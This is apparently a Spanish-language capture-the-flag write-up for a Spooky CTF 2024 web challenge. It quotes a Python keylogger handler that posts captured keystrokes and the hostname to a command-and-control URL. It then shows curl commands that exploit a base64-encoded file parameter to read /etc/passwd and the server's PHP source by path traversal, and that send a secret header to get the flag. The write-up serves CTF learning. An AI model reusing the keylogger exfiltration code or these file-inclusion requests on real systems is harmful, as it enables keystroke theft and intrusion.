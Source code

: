 Intro:

![img1](https://github.com/halexys/UciTeam1/blob/main/Spooky_CTF_2024/web/img/web3/image1.png)

Este reto era la continuación de hunted-server, en el cual había un keylogger escrito en python, donde teníamos lo siguiente:
La url del C2: ```url = 'https://haunted-c2.niccgetsspooky.xyz/cgi-bin/614af1b65d944d989a457c21a39b4377.php'```
Y la función que tramitaba la petición al C2:
```python
class Handler(StreamRequestHandler):
    def handle(self):
        while True:
            msg = self.rfile.readline()
            if msg:
                requests.post(url+'?op=upload', json={
                    'data': base64.b64encode(msg).decode('utf-8'),
                    'id': self.connection.fileno(),
                    'time': int(time.time()),
                    'hostname': socket.gethostname()
                })
            else:
                return
```

Como podemos ver, al C2 se tramitaba una petición por POST, donde se mandaba a la url por GET el parámetro os=upload y se tramitaba
por POST los datos recopilados por el keylogger en formato json.

Así que podríamos replicar esta request con curl para ver que nos responde el servidor:
```bash
curl -v -X POST "https://haunted-c2.niccgetsspooky.xyz/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=upload" \
     -H "Content-Type: application/json" \
     -d '{
           "data": "'"$(echo -n "test" | base64)"'",
           "id": "'"e"'",
           "time": '"$(date +%s)"',
           "hostname": "'"$(hostname)"'"
         }'
```
El servidor nos responde con lo siguiente:

![img2](https://github.com/halexys/UciTeam1/blob/main/Spooky_CTF_2024/web/img/web3/image3.png)

Podemos ver algo bastante interesante en la respuesta:
```Location: /cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=view&file=L3Nydi9sb2dzL3BhcnJvdC1l```
Vemos una ruta para obtener el archivo con los datos enviados al servidor, cargado con el parámetro "file" y algo en base64, que si
lo decodificamos podremos ver que es el nombre del archivo, creado a partir del hostname de nuestra máquina y el id tramitados en la
solicitud.

```bash echo L3Nydi9sb2dzL3BhcnJvdC1l | base64 -d; echo
/srv/logs/parrot-e```

Aqui tenemos una probable vía de LFI, asi que probamos si podemos leer el /etc/passwd:

```bash curl https://haunted-c2.niccgetsspooky.xyz/cgi-bin/614af1b65d944d989a457c21a39b4377.php\?op\=view\&file\=$(echo -n "/etc/passwd" | base64)```

Respuesta del servidor:

![img3](https://github.com/halexys/UciTeam1/blob/main/Spooky_CTF_2024/web/img/web3/image5.png)

En efecto, tenemos LFI. Luego de detectar el LFI, intenté obtener RCE, pero cualquier código inyectado no era interpretado por
el navegador, así que la próxima opción fue intentar leer el archivo php al que se le hacía la solicitud:

```bash curl https://haunted-c2.niccgetsspooky.xyz/cgi-bin/614af1b65d944d989a457c21a39b4377.php\?op\=view\&file\=$(echo -n "../cgi-bin/614af1b65d944d989a457c21a39b4377.php" | base64)```

Y el servidor nos devuelve el archivo:

![img4](https://github.com/halexys/UciTeam1/blob/main/Spooky_CTF_2024/web/img/web3/image4.png)

Y aquí tenemos una parte bastante interesante:

```php
  case 'flag':
      $secret_header = array_key_exists('HTTP_SECRET', $_SERVER) ? $_SERVER['HTTP_SECRET'] : '';
      if ($secret_header === '8662884dcb7e466e878091970e3f5ed9') {
        echo $_SERVER['FLAG'];
        exit();
      } else {
        http_response_code(400);
        exit();
      }
      break;
```
Este código comprueba si en $_SERVER existe HTTP_SECRET. $_SERVER es un array superglobal de php que contiene, entre otras cosas, las
cabeceras HTTP tramitadas al servidor, por ejemplo si se tramita la cabecera "User-Agent: test", la variable $_SERVER[HTTP_USER_AGENT] va 
a contener el valor "test", ya que toma el nombre de la cabecera, y lo convierte a mayúsculas, le agrega delante "HTTP_" y si contiene
guiones medios (-) los convierte en guiones bajos (_). 

Luego, si existe HTTP_SECRET, lo guarda en una variable llamada $secret_header y lo compara con el valor '8662884dcb7e466e878091970e3f5ed9'.
Conociendo esto, podemos crear nuestro payload:

```bash
curl "https://haunted-c2.niccgetsspooky.xyz/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=flag" -H "SECRET: 8662884dcb7e466e878091970e3f5ed9"
```
y el servidor nos devuelve la flag:

![flag](https://github.com/halexys/UciTeam1/blob/main/Spooky_CTF_2024/web/img/web3/image6.png)
